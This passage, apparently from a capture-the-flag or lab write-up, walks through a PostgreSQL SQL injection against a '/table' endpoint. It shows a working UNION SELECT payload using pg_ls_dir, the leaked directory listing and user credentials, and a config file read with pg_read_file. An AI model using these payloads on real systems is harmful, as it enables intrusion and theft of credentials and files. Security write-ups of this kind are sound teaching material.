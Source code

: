 Let's look at some more fun payloads:

## SQLi File Read

PostgreSQL has the feature to allow you to read files with `pg_read_file` and list directories with `pg_ls_dir`.

Let's try that (from now on I'm going to omit the `POST` stuff as you know it's going to `/table`):
```
users"%20UNION%20SELECT%20null,null,pg_ls_dir('./')--
```

Which responds:
```json
{"success":true,"results":[{"id":null,"username":null,"password":"pg_replslot"},{"id":null,"username":null,"password":"pg_tblspc"},{"id":2,"username":"sealldev","password":"oauth_default_password"},{"id":null,"username":null,"password":"PG_VERSION"},{"id":null,"username":null,"password":"pg_xact"},{"id":null,"username":null,"password":"pg_wal"},{"id":null,"username":null,"password":"pg_hba.conf"},{"id":null,"username":null,"password":"pg_multixact"},{"id":null,"username":null,"password":"pg_twophase"},{"id":null,"username":null,"password":"pg_stat"},{"id":null,"username":null,"password":"pg_dynshmem"},{"id":1,"username":"admin","password":"Fv0geJKEkZrHMH1M07vguN6b7/pLXXfcQnP3z83xXI0="},{"id":null,"username":null,"password":"pg_snapshots"},{"id":null,"username":null,"password":"postgresql.auto.conf"},{"id":null,"username":null,"password":"postmaster.opts"},{"id":null,"username":null,"password":"global"},{"id":null,"username":null,"password":"pg_ident.conf"},{"id":null,"username":null,"password":"pg_commit_ts"},{"id":null,"username":null,"password":"pg_stat_tmp"},{"id":null,"username":null,"password":"pg_notify"},{"id":null,"username":null,"password":"pg_subtrans"},{"id":null,"username":null,"password":"postmaster.pid"},{"id":null,"username":null,"password":"pg_logical"},{"id":null,"username":null,"password":"base"},{"id":null,"username":null,"password":"postgresql.conf"},{"id":null,"username":null,"password":"logfile"},{"id":null,"username":null,"password":"pg_serial"}]}
```

Cool! If you look reeeeeal close you can see the `postgresql.conf` file, let's read that as it might have some juice.

Removing all the commented out lines, this is the only active config:
```
max_connections = 100			# (change requires restart)

shared_buffers = 128MB			# min 128kB
dynamic_shared_memory_type = posix	# the default is usually the first option
max_wal_size = 1GB
min_wal_size = 80MB
log_timezone = UTC

datestyle = 'iso, mdy'
timezone = UTC
lc_messages = C				# locale for system error message
lc_monetary = C				# locale for monetary formatting
lc_numeric = C				# locale for number formatting
lc_time = C				# locale for time formatting
default_text_search_config = 'pg_catalog.english'
listen_addresses = '*'
```
